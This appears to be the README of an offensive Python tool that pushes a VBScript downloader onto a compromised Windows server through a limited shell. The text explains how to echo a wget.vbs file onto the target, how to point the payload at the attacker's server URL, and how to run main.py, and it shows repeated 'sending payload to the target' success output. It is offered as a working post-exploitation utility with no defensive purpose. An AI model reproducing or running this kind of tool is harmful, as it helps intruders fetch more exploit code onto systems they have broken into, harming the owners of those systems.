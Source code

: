 # WINDOWS LIMITED SHELL UPLOADER

suppose in post exploitation proses we were find a limited shell on target. in windows server by default there is no wget command like linux system, so we need to create our wget.vbs to download another exploit script from our server. we use "echo" command to echoing our vbs script to a file, this script may help to do it automaticaly.

#### setting up simple-vbs.txt
if you choose simple-vbs as your payload, change the server url inside the script payload.

don't forget to change the shell url inside main.py

#### command 

``` $ python main.py --file simple-wget.txt  --output wget```

#### output

```
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
[sending payload to the target]
[Success]
````


